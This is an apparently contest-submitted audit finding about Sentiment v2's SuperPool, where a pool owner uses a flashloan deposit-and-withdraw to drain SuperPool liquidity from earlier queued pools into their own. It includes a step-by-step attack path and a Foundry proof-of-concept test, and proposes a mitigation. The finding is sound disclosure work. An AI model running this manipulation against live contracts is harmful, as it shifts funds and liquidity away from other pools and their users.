 Shambolic Cobalt Copperhead

High

# Malicious pool owner can redirect funds of super pool, from other base pools, into their pool

### Summary

Depositing and withdrawing mechanics will cause low liquidity for some pools as malicious pool owners can redirect liquidity, provided from super pool, into their own pools.

### Root Cause

- The choice to supply to and withdraw funds from the queues (deposit queue and withdrawal queue) sequentially might not be a good choice since it allows users with huge funds (whales or flashloans) to manipulate liquidity of base pools. When huge withdrawals happen, the frontmost pools in the withdrawal queu will have the highest risk of being empty/ low liquidity.
- Combining with the fact that users could deposit then withdraw right after makes this attack even more viable, for malicious attackers could use flashloans to manipulate the liquidity of base pools for free.

### Internal pre-conditions

1. There is at least a pool with asset of superpool in it.
2. Use default queues (default deposit queue + default withdraw queue)

### External pre-conditions

N/A

### Attack Path

1. There is at least a pool (pool A) in the deposit pool with some funds of super pool depositing into it.
2. A new pool (pool B) is added. Default deposit queue is now [A B]. Default withdrawal queue is also [A B]
3. Pool B owner uses a flashloan to deposit a huge amount of asset into and then withdraw it from super pool.
4. Because withdrawal queue is [A B], all liquidity of super pool from A will be removed first before B. Thus, the remaining asset of super pool will end up in pool B. Pool B owner has successfully transfer liquidity from pool A to his pool.

### Impact

Malicious base pool owners can redirect liquidity into their own pools, at the cost of low liquidity for other base pools. High liquidity will help these pools attract more borrowers, thus more profit in charging interest. 

### Code snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/SuperPool.sol#L258-L263

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/SuperPool.sol#L281-L286
### PoC

```solidity
   function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        superPoolFactory = protocol.superPoolFactory();

        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);

        superPool = SuperPool(
            superPoolFactory.deploySuperPool(
                poolOwner, address(asset1), feeTo, 0.01 ether, 1_000_000 ether, initialDepositAmt, "test", "test"
            )
        );

        poolOwner1 = makeAddr("poolOwner1");
        poolOwner2 = makeAddr("poolOwner2");
        bytes32 FIXED_RATE_MODEL_KEY = 0xeba2c14de8b8ca05a15d7673453a0a3b315f122f56770b8bb643dc4bfbcf326b;
        vm.prank(poolOwner1);
        testPoolA = protocol.pool().initializePool(poolOwner1, address(asset1), type(uint128).max, FIXED_RATE_MODEL_KEY);
        vm.stopPrank();

        vm.prank(poolOwner2);
        testPoolB = protocol.pool().initializePool(poolOwner2, address(asset1), type(uint128).max, FIXED_RATE_MODEL_KEY);
        vm.stopPrank();
    }

    function testManipulateSuperPoolLiquidity() public {
        vm.startPrank(poolOwner);
        superPool.addPool(testPoolA, 50 ether);
        superPool.addPool(testPoolB, 50 ether);
        vm.stopPrank();

        

        vm.startPrank(user);
        asset1.mint(user, 25 ether);
        asset1.approve(address(superPool), 25 ether);
        superPool.deposit(25 ether, user);
        vm.stopPrank();

        vm.startPrank(poolOwner2);
        asset1.mint(poolOwner2, 100 ether);
        asset1.approve(address(superPool), 100 ether);
        superPool.deposit(100 ether, poolOwner2);
        superPool.withdraw(100 ether, poolOwner2, poolOwner2);
        uint256 poolAFinalAmount = superPool.POOL().getAssetsOf(testPoolA, address(superPool));
        uint256 poolBFinalAmount = superPool.POOL().getAssetsOf(testPoolB, address(superPool)); 
        assertEq(poolAFinalAmount, 0 ether);
        assertEq(asset1.balanceOf(poolOwner2), 100 ether);
        assertEq(poolBFinalAmount, 25 ether  + initialDepositAmt);
        vm.stopPrank();
    }
```

### Mitigation

To mitigate this issue, we need to prevent users from withdrawing immediately after depositing.